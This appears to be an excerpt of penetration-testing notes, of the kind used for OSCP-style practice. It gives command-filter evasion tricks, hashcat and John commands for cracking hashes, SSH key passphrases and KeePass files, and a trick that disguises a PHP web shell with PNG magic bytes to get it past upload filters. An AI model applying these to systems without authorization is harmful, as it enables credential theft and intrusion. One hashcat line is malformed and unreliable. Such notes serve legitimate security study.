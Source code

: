 ```
```{echo,hello,world}``` equals ```echo hello world```\
**Using env variable with encoded spaces**\
```CMD=$'\x20hello\x20wolrd';echo$CMD``` equals ```echo hello world``` with ```\x20``` is hex code for white space


### Hashcat:
Use hashcat rule to generate a list of variation of a common word:
```
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout phrase.txt > variation.txt
```
To crack:
```
hashcat -m (mode) -a 0 hashdump plaintext
```
```
hashcat -m hash.txt rockyou.txt
```
Crack md5 hash:
```
hashcat -m 0 hash.txt rockyou.txt
```

### Decrypt encrypted SSH Key:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D
```
Crack with john using ssh2john.py module:
```
python ssh2john.py ssh.key > key.key
```
Then use john to brute force the SSH key phrase: (requires john 1.9 Jumbo)
```
john --wordlist=rockyou.txt key.key
```

### Decrypt a .kdbx (KeePass file)
Crack with keepass2john.py module
```
python keypass2john.py ceh.kdbx > hash.txt
```
Then use john to brute force the Hash: (requires john 1.9 Jumbo)
```
john --wordlist=rockyou.txt hash.txt
```


### Spoof a file signature
Spoof a php file with a png image
Grab PNG magic bytes (first 64 bytes)
```
head -c 64 image.png > sig
```
Create new PHP file with PNG signature
```
cat sig shell.php > newshell.php
```
Upload and modify POST request with Burp


## Pivoting
https://sushant747.gitbooks.io/total-oscp-guide/content/port_forwarding_and_tunneling.html
https://github.com/21y4d/Notes/blob/master/Pivoting.txt
 
## Breaking out of a Restricted Shell:
https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
Also
```